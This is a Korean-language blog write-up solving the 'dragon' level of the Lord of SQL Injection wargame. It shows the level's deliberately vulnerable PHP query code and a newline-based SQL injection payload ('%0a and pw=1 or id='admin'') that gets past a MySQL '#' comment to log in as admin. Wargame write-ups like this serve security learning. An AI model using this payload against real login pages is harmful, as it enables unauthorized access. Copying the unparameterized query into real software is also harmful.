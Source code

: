 ```yaml
---
title: "[Lord of SQL Injection] LoS - dragon 문제풀이"
date: 2018-08-15
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


다음 문제는 `dragon`이다.
메인 이미지가 `용이 산다` 웹툰의 `마리`다.
대존귀탱 ㅠㅠ

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=''
-------------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 쿼리문 중간에 `#`이 들어가 있다.
`#`은 `MySQL`에서 주석을 의미한다.
처음에는 이 주석을 어떻게 우회할 수 있지 않을까 생각했다.
그래서 이것저것 찾다가 `executabl comments`를 찾게 되었다.

`MySQL` 에서 주석이 여러개가 있는데, 그 중에 `/* */`이 있다.
이 때, `/*! QUERY */` 이런식으로 안에 느낌표를 넣어주면, 해당 쿼리를 실행할 수 있다고 한다.
쨌든 이건 문제 풀이와는 상관 없다.
주석을 우회할 수 없을까 계속 고민하다가 서버에서 `MySQL`을 실행시키고 쿼리를 여러개 테스트 해 보았다.  

```bash
mysql> select idx from board where idx=50# or idx=/*!####51*/;
    -> ;

mysql> select 1 from board where idx=50# or #idx=51;
    -> ;
```

이런 형태로 테스트를 해 보았는데, 한가지 특징이 나타났다.
잘 보면, `#` 이후는 다 주석처리가 됬다는 사실을 알 수 있다.
때문에 쿼리가 완성이 되지 않았기 때문에 다음 줄을 입력하라고 떴고, 거기에 `;`을 입력 해 쿼리를 완성시켜주었더니 정상적으로 쿼리가 실행되었다.
즉, `#`은 `한 줄짜리 주석`이며, `MySQL`은 `여러 줄에 걸쳐` 쿼리를 작성할 수 있다.
이번에는 이 점을 이용해서 문제를 풀었다.
현재 쿼리는 다음과 같다.

```mysql
select id from prob_dragon where id='guest'# and pw=''
```

그런데 만약 여기서 `pw`에 `%0a`를 입력 해 개행한다면 다음과 같이 구성 될 것이다.  

```mysql
select id from prob_dragon where id='guest'# and pw='
'
```

이 때, 다음 줄은 주석이 아니므로 정상적으로 쿼리를 이어서 실행시킬 수 있게 된다.  

```mysql
select id from prob_dragon where id='guest'# and pw='
and pw=1 or id='admin'
```

따라서 위와 같이 쿼리를 구성한다면 다음 줄의 쿼리를 실행시킬 수 있다.
이를 위해 `URL`에 아래와 같이 입력 해 문제를 풀 수 있었다.

```plain
?pw=%0a and pw=1 or id='admin
```

---

```php
--------------------------------------------------------------------------------------------------------------------
query : select id from prob_dragon where id='guest'# and pw=' and pw=1 or id='admin'
--------------------------------------------------------------------------------------------------------------------

Hello admin
DRAGON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

---

```plain
DRAGON Clear!!
```